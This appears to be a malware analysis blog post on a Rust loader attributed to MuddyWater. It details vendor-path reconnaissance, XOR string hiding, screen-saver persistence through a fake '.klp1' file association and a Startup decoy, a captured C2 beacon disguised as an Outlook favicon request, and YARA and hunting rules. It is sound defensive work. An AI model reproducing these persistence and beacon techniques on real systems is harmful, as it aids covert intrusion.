# RustyWater: Reverse Engineering MuddyWater's Rust Toolkit

|  |  |
| --- | --- |
| **SHA-256** | not published in the source, and I do not hold the file |
| **Size** | not stated in the source |
| **Format** | PE32+ console executable, Rust, statically linked |
| **Compiled** | unknown |
| **Signed** | not stated |
| **Analysis** | static reading of published decompilation, plus local checks on Windows build 26300.9711 |


**TL;DR.** The loader does three things before it does anything with a payload. It opens about forty fixed paths under `C:\ProgramData` to see which security products are installed. It drops a screen saver under `%LOCALAPPDATA%\Packages\Diour` and registers a per-user file association for an invented extension, `.klp1`, so that files of that type display as a text document and open the screen saver. It puts an empty `.klp1` in the Startup folder, which means the loader itself does not need to survive on disk. Then it beacons with `GET /favicon.ico` and an Outlook user agent. Every string it needs is decrypted at runtime, and two of them are reached through pointer arithmetic that leaves no reference in the binary. No second stage was ever observed, because the server never answered.


## Why this one is interesting

The payload is the least interesting part. What makes this worth a post is how much Windows behaviour the loader borrows instead of implementing: file associations, the packaged-app data folder, the Startup folder, and a normal-looking HTTP request. None of that needs a driver, an injection, or an elevated token.

The second reason is the beacon. A `GET` for `/favicon.ico` is one of the few request shapes that never gets a second look in a proxy log, and the user agent it carries belongs to an application that genuinely does fetch icons for links.

The third is how little a static review gets to see. Apart from the vendor paths, which sit in the binary as plain ASCII, the strings that matter are decrypted from blobs found through a resolver that takes a constant and a base address. There is no cross reference from the decryption code to the string it produces, and nothing in `.rdata` looks like a URL.

## What I have, and what I do not

I did not run this binary, and I do not hold a copy. The walkthrough below reads the decompilation, the registry writes, and the network capture published by the analyst who did run it, and the figures are that analyst's screenshots. Everything I could check on a stock Windows machine I checked myself, and those parts are marked as measured. Where the commentary and the screenshots disagree, I say which one I believe and why.

That split matters more than usual here, because several claims in the source do not survive a second look. I have kept the numbers exactly as published and flagged the places where I could not make them add up.

## A Rust binary, and why the entry point is the last thing you find

Rust statically links its standard library, monomorphises generics, and drags in formatting, panicking, and unwinding machinery. A hello-world release build is a few hundred kilobytes before you write a line of logic, and a loader built on `reqwest` and `tokio` lands in the low megabytes. Strip the symbols and IDA gives you a wall of `sub_` functions where a C sample would have given you `main`, `WinMain`, and a handful of imports.

The practical route in is not the entry point. It is the strings: crate names survive in panic messages and in path fragments, so `reqwest`, `tokio`, and `ctr` are searchable, and from there the cross references lead to the code that uses them. The analyst reports landing on `sub_7FF63B3F178E` as the main function and finding that everything around it is TLS callbacks, panic handlers, and overflow checks, which is what a Rust `main` looks like once the symbols are gone. I cannot confirm that address without the file.

## Stage one: read the host

### The vendor array

The first thing the loader does after starting is take the path to `C:\ProgramData` and walk a fixed array of names beneath it. The names are security vendors. For each entry it opens the path for read attributes, and if the path exists it copies out the file metadata, then stores the vendor name, the product name, and the path into a growable array.



*Figure 1: the loop over the vendor array. `sub_7FF63B3F179A` is the open-and-query helper, and the branch after it decides whether the entry produced a result.*



*Figure 2: the two assignments that keep the vendor and product names next to the path. The `+ v465` offsets are the stride through an array of structures, which is why the analyst defined structs for them.*

The test `(v5->tagged_flag & 1) != 0` is how IDA renders a Rust enum or an `Option` discriminant. The low bit says which variant it is, and the payload follows at a fixed offset. Two structure definitions make the listing readable: one for the Rust string, which is a pointer and a length with no terminator, and one for the array entry that holds the three strings.



*Figure 3: the same loop from the other side. Each vendor is one failed open, and the desired access is read attributes, so nothing is executed or loaded.*

This is a cheaper way to inventory a host than the usual ones. Windows Management Instrumentation with `root\SecurityCenter2` returns the registered antivirus products, but it is slow, it is frequently restricted by policy or by the security product itself, and it leaves a WMI trace that is easy to hunt for. Service enumeration tells you what is running but not what is installed. A list of known install paths costs one failed `CreateFile` per vendor, works under any account that can read `ProgramData`, and produces nothing that a default logging configuration records.

The price is coverage. A product installed somewhere else is invisible, and a path that exists but belongs to an uninstalled product counts as a hit. On this machine, of the eight paths I tried, two exist: `Microsoft\Windows Defender` and `Kaspersky Lab`. The rest return nothing, which is what the capture in Figure 3 shows for most of its rows.

### Identity, and which half of the network you are on

The next block is the familiar pair: `GetUserNameW` and `GetComputerNameExW`, both writing into a buffer the loader then turns into a Rust string. I measured the same two calls here and got `bpiec` and `JPIECKS`, so the mechanics are unremarkable aside from the buffer handling.

The third call is more specific. `NetGetJoinInformation` returns the join status of the machine and the name of the domain or workgroup. On this box it returns `NERR_Success`, type 2, and `WORKGROUP`, which is the ordinary case for a home machine. The enumeration values are not secret: 1 is unjoined, 2 is a workgroup, 3 is a domain.

What the sample does with the value is worth reading closely:

```cpp
if ( BufferType[0] == NetSetupWorkgroupName )
    v50 = 2;
else
    v50 = BufferType[0] == NetSetupUnjoined;
```

Two lines, and the source describes them as deciding whether the machine is standalone or part of an enterprise network. The first line does map a workgroup to 2. The second maps an unjoined machine to 1, and a domain-joined machine, which is 3, to 0 because neither comparison holds. If there is no branch above this one that handles the domain case, then a domain host falls through to zero, which is the same value a failed conversion would produce. The snippet as published cannot tell the difference between "not joined to a domain" and "something went wrong", and I would want the whole function before claiming the loader distinguishes those.

### The encrypted blob, and the pointer that hides it

The join status picks which of two keys is used to decrypt a small configuration blob. The source describes both branches as following the same pattern, and Figure 4 shows one of them: four 64-bit words of XOR, one 32-bit word, one 16-bit word.



*Figure 4: `if (NetGetJoinInformation(...))` is the failure path, so this branch uses the key at `byte_7FF63B4BCC06`. The success path uses `byte_7FF63B4BCBE0`.*

Reading the loop bounds gives the size. The four iterations cover 32 bytes, the `for` loop starts at 32 and stops at 0x23, so it runs once and touches the DWORD at 32, and the last statement reads the WORD at 36 and XORs it with `0x2728`. Thirty-two plus four plus two is 38 bytes, which is where the published figure of 38 comes from. The commentary calls 38 the length of the encrypted string, which is probably not what it is: `0x2728` is not 38 in any encoding, and 38 is exactly the blob size. The trailing word is more likely a check value than a length field. I cannot settle that without the disassembly.

One detail in the DWORD loop does not look like ordinary XOR:

```cpp
*(_DWORD *)((char *)&lpBuffer[0].LowPart + j) = *(_DWORD *)(v42 + j)
    ^ ((unsigned __int16)byte_7FF63B4BCC06[j] + (byte_7FF63B4BCC06[j + 2] << 16))
    - 2130706432;
```

The key for that word is assembled from two bytes of the key array and then has `0x7F000000` subtracted, which wraps the result into the top byte. If the intent were a four-byte XOR key the code would just read one. Either the decompiler folded something away, or the key schedule really does arithmetic on top of the XOR, and the listing alone is not enough to decide.

The address of the blob is not referenced anywhere. It is computed:

```cpp
v42 = sub_7FF63B3F27F6((char *)&off_7FF63B4BC768 + 3, 525191005);
```

The first argument is a symbol address used as a base, the second is a constant. The resolver adds a delta derived from that constant, so the call site contains no reference to `.rdata` at all, and a string search finds nothing until the blob is decrypted.

### Two strings, and what they buy

The next two blobs are decrypted the same way, with different keys and different sizes, and both are resolved through the same style of helper.



*Figure 5: 40 bytes in five words, then two more bytes, which is 42 in total.*

The 42 bytes decrypt to `%USERPROFILE%\AppData\Local\Packages\Diour`. I counted the string: 42 characters, which matches the loop bounds exactly. The 5-byte blob decrypts to `Empty`, and the published addresses put it at `0x7FF63B4BD284` and the path at `0x7FF63B4BD289`. Five bytes apart, which is the length of `Empty`. That does not prove the addresses are right, but it means the transcription is internally consistent, which is the most I can ask for without the file.

## The pointer arithmetic, recomputed

The whole trick rests on a helper that turns a base and a constant into an address. The published expression for one of them is:

```
return a1 + (~(-13929 * a2) ^ __ROL4__(~(-1102722665 * a2), 7));
```

With `a1 = 0x7FF63B4B6025` and `a2 = 466827713`, the source says the result is `0x7FF63B4BD284`. I evaluated it in 32-bit arithmetic:

| step | value |
| --- | --- |
| `a1` | `0x7FF63B4B6025` |
| `a2` | `466827713` (`0x1BD339C1`) |
| result claimed in the source | `0x7FF63B4BD284` |
| delta the claim needs | `0x725F` |
| `~(-13929 * a2)` | `0xF7D16628` |
| `~(-1102722665 * a2)` rotated left by 7 | `0x85B31477` |
| XOR of the two | `0x7262725F` |
| `a1` plus that | `0x7FF6ADADD284` |

The full 32-bit value does not land on the address. The low 16 bits do: `0x725F`, which is exactly the delta the claim needs. Two readings are possible. Either the helper returns a 16-bit delta, or the listing dropped a cast and the caller keeps only the low word of the result.

The second expression in the same listing supports the first reading:

```
return a1 + (((a2 ^ 0xAB098523) >> 20) ^ (unsigned __int16)a2 ^ 0x8523);
```

A 12-bit shift XORed with two 16-bit terms cannot produce anything above `0xFFFF`. So the loader's resolver works in 16 bits, which caps how far from the base any blob can sit: 64 KB. Since the blobs are packed together in `.rdata` within a few bytes of each other, that is not a limitation in practice.

For anyone re-implementing this from the listing, the practical consequence is that you must mask the XOR with `0xFFFF` before adding it to the base, or you end up `0x72620000` away from the string you were looking for and conclude the analysis is wrong.

Appendix A has the script I used.

## Stage two: a screen saver dressed as a document

### Where the file goes

The decrypted path is `%USERPROFILE%\AppData\Local\Packages\Diour`, and the loader writes `bikana.scr` inside it.



*Figure 6: `Diour` in the middle of the real package folders, sorted alphabetically with no distinguishing mark.*

`Packages` is where packaged applications keep per-app state. Every UWP or MSIX app gets a folder named after its package identity, and on a working machine the directory is full of them. Adding one more folder with a five-letter name does not stand out, and the path looks like application data rather than a payload drop.

I checked the mechanics. The folder exists on a stock installation, with 135 entries on this one, and an ordinary non-elevated process can create a subdirectory and write a file into it. The owner of the new folder is the user, with no elevation prompt and no ACL change.

`bikana.scr` is a PE with a different extension. The shell treats `.scr` as a screen saver because of the `scrfile` class: the type name is `Screen saver` and the open command is `"%1" /S`. So the file runs like an executable, with a command line switch that tells a real screen saver to start immediately and ignore settings. `.SCR` is not in the `PATHEXT` environment variable, which means double-clicking it goes through the shell rather than through the command interpreter. That distinction matters, because the whole chain is built on the shell.

### The extension

Three writes in a row create the association, all of them under `HKCU\Software\Classes`, which is the per-user half of `HKEY_CLASSES_ROOT` and needs no administrator rights.


*Figure 7: the wrapper around the registry call. The string IDA names `aKlp1` is five characters, which is the extension.*



*Figure 8: the default value of the extension key. Thirteen is the length of `text document`, which is a useful check on the annotation.*



*Figure 9: the command value. The inline comment says `shell\print\command`; the prose says `shell\open\command`.*

That disagreement is not cosmetic. An extension key can carry its own `shell\open\command`, or it can name a ProgID in its default value and let the ProgID carry the command. Which one wins decides whether double-clicking the file does anything.

I tested the combinations on this machine. The measurement is `AssocQueryString` with `ASSOCSTR_COMMAND`, which is the same resolution the shell uses, plus the type name the shell reports for a file with that extension:

| what is in the registry | command returned | type name |
| --- | --- | --- |
| nothing | `OpenWith.exe "%1"` | (empty) |
| `shell\open\command` under the extension | the command | `KLP1 File` |
| default value names `txtfilelegacy`, command under the extension | error `0x80070483` | (empty) |
| default value `text document`, command under the extension | the command | `text document` |

The third row is the important one. `txtfilelegacy` is a ProgID that exists on this build but has no `shell\open\command` of its own, and the moment the extension's default value names it, the command sitting under the extension key is ignored and the resolution fails with `ERROR_NO_ASSOCIATION`. A default value that names a programmatic identifier takes priority over the extension's own verb, even when that identifier leads nowhere.

The fourth row is why the loader's design works. `text document` is not a registered ProgID. Because nothing claims that name, the shell falls back to the extension key's command, and it reports the raw string as the file type, which is where the camouflage comes from. The moment someone registers a ProgID with that exact name, the loader stops launching, because the ProgID takes over and the extension's command is skipped. That is a dependency on a name collision never happening, and it is a strange thing to build persistence on.

The icon works the way the annotation says. `imageres.dll` resource `-102` is the plain document icon, and extracting it here produces the same 32 by 32 picture that a `.txt` file shows. Writing that path into `DefaultIcon` gives the `.klp1` file the document icon in Explorer.

One detail does not fit. My fourth row produced the type name exactly as written, lower case. The analyst's Explorer screenshot shows `Text Document` with a capital T. I could not reproduce the capitalisation, so either the details view formats the string differently from the API I used, or the default value in the real run was something else. It does not change the mechanism, but it is one more reason to treat the commentary on this sample as a lead rather than a record.

### Startup



*Figure 10: the Startup item. It is empty, and it looks like a text file.*

The file is `ackama.klp1` in the per-user Startup folder, `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`. It is 0 KB, because it does not need content: the extension is the payload. When the shell opens it at logon, the association resolves to the screen saver, and the loader itself does not need to be on disk or registered anywhere.

I did not test the logon half, since that needs a logoff and a fresh session, so the claim rests on the association measurement plus the analyst's observation that the file is created. The mechanism is consistent with everything else in the chain, and it explains why nothing in the sample needs to write a Run key.

### Running the payload



*Figure 11: the process creation. The fifth argument is `1`, so the child inherits handles, and the creation flags come from a variable that carries the hidden window setting.*

Hidden window plus inherited handles is the standard shape for a launcher that wants to keep talking to its child. Inheriting handles means the child gets the parent's pipes, so a console application started this way has somewhere to write that is not a window.

## The beacon



*Figure 12: the request as captured, with the session cookie split across two lines by the packet view.*

The request is one line and four headers:

```
GET /favicon.ico HTTP/1.1
host: bootcamptg[.]org
cookie: sessionId=<148 hex characters>; theme=dark
accept: image/vnd.microsoft.icon
user-agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Outlook 16.0.4266; Pro)
```

The path is the part that survives scrutiny. Browsers and mail clients ask for `/favicon.ico` constantly, the accepted type matches the path, and `image/vnd.microsoft.icon` is not an invented value: it is the registered type for the format, with a registration that dates to 2003 and names favicon use as its main application. A proxy that blocks unusual content types will not touch this.

Two things in the capture do not belong. The first is the cookie: 148 hex characters is 74 bytes, which is longer than any browser session identifier, and `theme=dark` is not something a favicon fetch sends. The second is the header order and casing. Lower-case header names, cookie first, then accept, then user agent, then host, is what a Rust HTTP client produces. Outlook does not format its requests that way, and the mismatch between the claimed client and the actual one is visible in any full packet capture.

## What the dynamic run shows, and what it does not

The analyst's run produced the folder, the association, the Startup file, and one beacon. The vendor scan shows up in Process Monitor as a column of `PATH NOT FOUND`, which is the expected result on a machine with almost none of those vendors installed.

The second stage never arrives. The loader polls, the fake network never returns the encrypted icon, and the run stops at the beacon. Everything after that point is a code path that was read, not behaviour that was observed, and I have written this post as if that boundary is real. The section above describes how the loader gets a file to run and how it asks for instructions. What happens when it gets them is not in evidence.

## Detection

### The published rule, evaluated

The source ships a YARA rule with the write-up. Its condition, in outline:

```
MZ and filesize < 10MB and
reqwest:: and tokio::runtime and
(xor key blob or hex table or 2 of (five strings) or all of (five vendor names))
```

`yara` is not installed here, so I re-implemented the condition in Python and ran it against files I built for the purpose. Four ordinary strings in a file with an `MZ` header are enough:

| synthetic file | published rule |
| --- | --- |
| `MZ` + `reqwest::` + `tokio::runtime` + `0123456789abcdef` | match |
| `MZ` + the loader's extension, file names, and registry strings | no match |

The first row is the problem. `reqwest::` and `tokio::runtime` appear in most Rust programs that speak HTTP, and the sixteen bytes `0123456789abcdef` appear in anything that prints hex, including loggers, encoders, and debug output. The inner group is an `or`, so once the two crate strings are present, the hex table alone is enough to satisfy the rule. The strings that describe this loader are not what carries the detection. The second row not matching says less: I built that file without the crate strings, so it shows that the extension strings are not required, not that the rule misses the sample.

The vendor branch has the opposite weakness. `all of ($av_*)` requires five specific names to survive, so an author who edits one entry in the array defeats the rule without changing behaviour. `filesize < 10MB` excludes nothing that matters for a statically linked Rust binary.

### A tighter rule

The rule I added is in [`detections/muddywater_rust_loader.yar`](../detections/muddywater_rust_loader.yar). It pivots on the one string that has no legitimate reason to exist, `.klp1`, then requires either the dropped payload name or the Startup decoy, then two supporting strings from a list of six. The second rule matches the Outlook user agent together with the icon content type and either the favicon path or the cookie prefix, which catches the beacon even if the file is rebuilt with a different extension.

Same method: synthetic files, ASCII and UTF-16, no sample.

| synthetic file | `.klp1` rule | beacon rule |
| --- | --- | --- |
| benign Rust program with HTTP and hex strings | no | no |
| loader strings, ASCII | match | no |
| loader strings, UTF-16LE only | match | no |
| benign installer with a shell verb | no | no |
| vendor names only | no | no |
| beacon strings | no | match |
| Office user agent and icon type, nothing else | no | no |

That is evidence the conditions do what the comments say. It is not evidence that either rule finds the real sample, which I have never seen.

### Hunting without a signature

The behaviours are easier to catch than the file:

```
HKCU\Software\Classes\.<random extension>  created by a process that is not an installer
%APPDATA%\...\Start Menu\Programs\Startup\*.<ext not in PATHEXT>
<user profile>\AppData\Local\Packages\<non-package name>\*.scr  executed
HTTP GET /favicon.ico  where the user agent contains "Microsoft Outlook" but the process is not Outlook
```

For the first line, the useful filter is the writer. Installers and the shell itself create extension keys routinely; a process running from a temporary folder or from `Packages` doing it is not routine. For the third, a screen saver launched from `Packages` is close to impossible to justify, because packaged applications do not ship `.scr` files there.

The fourth is a network detection with an easy discriminator: take the user agent's claim, then check the process that owns the connection. Outlook's own favicon requests come from `outlook.exe`, and the version string in the header will match the installed build. Here the claimed build is fixed at `16.0.4266`, so a host whose Outlook has moved to another patch level is a mismatch on its own.

## MITRE ATT&CK

| Technique | ID | Evidence | Status |
| --- | --- | --- | --- |
| Security Software Discovery | T1518.001 | The fixed vendor array under `C:\ProgramData` | Observed in the decompilation |
| System Owner/User Discovery | T1033 | `GetUserNameW`, `GetComputerNameExW` | Observed in the decompilation |
| System Information Discovery | T1082 | `NetGetJoinInformation` for domain or workgroup status | Observed in the decompilation |
| Event Triggered Execution: Change Default File Association | T1546.001 | `.klp1` registered in `HKCU\Software\Classes` with a command pointing at the screen saver | Observed, and reproduced locally |
| Boot or Logon Autostart: Startup Folder | T1547.001 | `ackama.klp1` written to the per-user Startup folder | Observed in the dynamic run |
| Masquerading | T1036.005 | `.scr` named `bikana.scr`, presented as `text document` | Observed |
| Obfuscated Files or Information | T1027 | XOR blobs and a pointer resolver with no direct reference | Observed in the decompilation |
| Application Layer Protocol: Web Protocols | T1071.001 | HTTP beacon to the C2 over 443 | Observed in the capture |
| Ingress Tool Transfer | T1105 | Intended second stage | Not observed |
| Process Injection | T1055 | none | Not observed |
| Scheduled Task/Job | T1053 | none | Not observed |
| Create or Modify System Process | T1543 | none | Not observed |

## Limitations

1. I do not hold the sample. There is no hash, no size, no import table, and no string dump here that I produced myself.
2. Every address, key, and decrypted string is quoted from the published analysis. The one arithmetic check I could run reproduces the address only in 16 bits, so my re-derivation is consistent with the claim but does not independently confirm the value.
3. The 16-bit conclusion is inference. It fits both the arithmetic and the shape of the second expression, but it is not read off a disassembly.
4. The `open` versus `print` verb is unresolved. The prose says one thing and the figure's inline comment says another, and the snippets do not show which branch produced the key that the shell actually uses.
5. The registry experiments ran on one build, 26300.9711. Windows 10 uses a different ProgID for text files (`txtfile` rather than `txtfilelegacy`), so the priority behaviour in row three of the table may differ there. I did not test a second build.
6. Startup processing at logon was not tested. I measured the association and read the analyst's screenshot; the logon step is inferred from the two.
7. The type name mismatch is unexplained. My test produced `text document` in lower case, the screenshot shows `Text Document`.
8. The vendor list transcribed from the Process Monitor capture is partial. Column truncation hides the tails of several paths, so the names I quote are the ones that are fully visible.
9. The YARA rules have never been run against the sample, and `yara` is not installed here, so the conditions were evaluated by a re-implementation in Python.
10. I did not contact the C2 domain, and nothing here requires it.

## Closing

The loader's value to its operator is not the payload it eventually fetches. It is that the host ends up with a file type nobody has seen before, pointing at a screen saver in a folder that looks like application data, with an empty file of that type waiting in Startup. Nothing in that chain needs an administrator, a driver, or a signed binary. It needs an unused extension and a shell that believes the registry.

The parts I could measure held up. The parts I could not, mainly the registry verb and the trailing word in the XOR blob, are exactly where a re-analysis with the binary would start.

## Appendix A: the recomputation

The script below evaluates the published expression in 32-bit arithmetic and shows which width reproduces the stated address.

```python
M32 = 0xFFFFFFFF

def rol32(v, n):
    v &= M32
    return ((v << n) | (v >> (32 - n))) & M32

a1, a2 = 0x7FF63B4B6025, 466827713
delta = ((~(-13929 * a2)) & M32) ^ rol32((~(-1102722665 * a2)) & M32, 7)

print(hex((a1 + delta) & M32))          # 0x7ff6adadd284, not the claimed address
print(hex(delta & 0xFFFF))              # 0x725f
print(hex(a1 + (delta & 0xFFFF)))       # 0x7ff63b4bd284, the claimed address
```

The integer width is what matters here: `~` on a Python int is unbounded, so the mask after each operation is required to keep the 32-bit shape the decompiler is showing.

## Appendix B: provenance

| Fact | Source |
| --- | --- |
| Entry point address, vendor list contents, struct definitions | Published decompilation |
| XOR loop shape, key addresses, blob sizes, the `0x2728` trailing word, the `0x7F000000` term | Decompilation figures |
| `Empty`, the `Packages\Diour` path, `bikana.scr`, `ackama.klp1` | Published analysis |
| Beacon headers, session cookie, user agent, C2 host | Published packet capture |
| Join status values, `Packages` writability, `scrfile` command, `PATHEXT`, association priority, icon resource `-102` | Measured here, build 26300.9711 |
| Pointer arithmetic results | Recomputed here from the published constants |
| `image/vnd.microsoft.icon` registration | IANA media types registry |
| YARA evaluation results | Re-implementation in Python, synthetic files |
| Figures 1 to 12 | Reproduced from the published analysis |
